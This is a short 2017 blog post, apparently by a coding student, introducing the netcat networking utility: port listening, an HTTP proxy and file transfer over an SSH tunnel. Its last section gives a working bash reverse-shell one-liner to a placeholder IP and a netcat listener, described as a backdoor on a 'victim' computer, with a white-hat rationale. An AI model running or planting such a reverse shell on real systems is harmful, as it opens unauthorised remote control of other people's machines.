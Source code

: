 ```yaml
---
layout: post
title:  "Netcat: Woah"
date:   2017-02-24 09:43:21 -0500
---
```



File this one under semi-relevant but super neat. My first exposure to netcat was through an offhand comment made by our instructor Steven, in which he said it was pretty crazy. If i’ve learned anything about Steven, with his background in network security, it’s to pay attention to the things he mentions as cool, because they probably are. This was no exception. In this blog post, I’ll cover some of the basics of netcat, as well as some neat tricks you can do with it. 

	Type “man nc” into your terminal and even the first couple of lines are intriguing. Not even the first couple of lines in your iPhone’s manual were intriguing, so this is already a good start:
	“nc -- arbitrary TCP  and UDP connections and listens… the nc (or netcat) utility is used for just about anything under the sun involving TCP or UDP.”

	Having learned all about how the internet works earlier this week we, we were exposed to TCP and UDP as part of the transport layer in the internet protocol suite. Simply put, these protocols allow for the transference of data via hosts communicating by an IP network. As such, netcat was originally conceived as a network utility for reading and writing to network connections, a general-purpose networking tool. 

Some basic applications of nc include:

Checking if ports on the network are open
To listen for connections on TCP port 8080. : nc -l 8080
Creating an HTTP proxy server:
 To create a proxy server on localhost port 8888. : nc -l --proxy-type http localhost 8888
Encrypted file transfer: 
When you SSH in, add -L 31000:127.0.0.1:31000
On the remote: nc -lvnp 31000 127.0.0.1 > file
On the local: nc -v -w 2 127.0.0.1 31000 < file

	Clearly this is an extremely versatile and useful tool for diagnosing problems on a network. However beyond that, nc is also a favorite tool of hackers, known to some as  “the swiss army knife of hacking tools”. From the examples above, even successfully sending an encrypted file has obvious hacking applications. However, in order for the file to be opened on the remote, someone needs to be on the receiving end typing in the command. Or do they? 

<iframe src="//giphy.com/embed/1107IdxsMU7I6k" width="480" height="269" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="http://giphy.com/gifs/rick-and-morty-1107IdxsMU7I6k">via GIPHY</a></p>
	
	
	One tricky thing that nc can be used to do is to create a reverse shell to remotely execute commands over any open port using netcat or BASH. A reverse shell is a type of shell in which another ‘attacking’ machine can execute commands. You can create one with a single line of code : bash -i >& /dev/tcp/youripaddress/1337 0>&1
Next, we create a backdoor with our trusty friend netcat: nc -l 1337    

And voila, we’re done(more or less). You can use this to make the victim computer do funny things like speaking out loud: “say [thing]”, and beyond that more malicious applications are pretty apparent. 

	So, being a student of code and its legal applications, why would I want to learn such a thing? Online, there’s a type of hacker called a “white hat,” someone who uses hacker’s tools for educational and non-malicious purposes. If I am to contribute to helping preserve and develop online infrastructure, a deep understanding of all of the tools at our disposal is crucial, regardless of how fun they are.



Sources: 
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf  
https://en.wikipedia.org/wiki/Netcat (yes I’m listing Wikipedia as a source, just bein’ honest!) 
http://www.thegeekstuff.com/2012/04/nc-command-examples/?utm_source=feedburner
https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

